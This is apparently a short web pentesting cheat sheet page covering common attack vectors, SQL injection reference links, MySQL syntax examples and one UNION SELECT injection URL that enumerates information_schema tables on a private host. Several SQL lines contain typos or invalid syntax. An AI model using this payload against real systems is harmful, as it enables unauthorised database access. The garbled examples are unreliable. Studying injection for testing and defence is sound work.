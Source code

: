 ```yaml
---
title: Web pentest
excerpt: "This is a guide for Web pentesting"
last_modified_at: 13-01-2022
categories:
- cheatsheet
tags:  
- pentest
- web
- pentesting
image: /assets/images/cheatsheet/web_pentesting.jpeg
---
```



# Web hacking  
## Attack vectors
- Parameters
- Search inputs
- Login/athentication inputs
- Fields/register inputs
- Redirects
- GET e POST parameters
- Download
- Upload

## SQL Injection.
Use sql commands that are not sanitized do retrieve database informations:
Links:  
* [Cheat sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [w3schools](https://www.w3schools.com/Sql/sql_comments.asp)  

Sql sintax examples(mysql):  
```sql
select user(); --Show user
create database test;  
use test;
show tables;
create table users(id int primary key auto_increment,login varchar(20) not null,passwords vasrchar(20) not null);
describe users;
select id from users;
insert into users values('1','admin','admin');
select * from users;
select * from users where id="1";
select concat(login,':',passwords from users) -- CONCATENATE selects.
select @@versions -- Show database version
select load('/var/www/html/index.html') -- Load a file.
select sleep(5) -- Sleep 5 sec until return.
select substring("test",1,3)
use mysql; --System database that has informations about users,...
use information_schema; --System database, has informations about created databases, tables, columns.
```  
### SQL Information Schema  
```sql
172.16.1.10/turismo/agencias.php?loja='union select 1,2,table_name,4,5 from information_schema.tables' 
```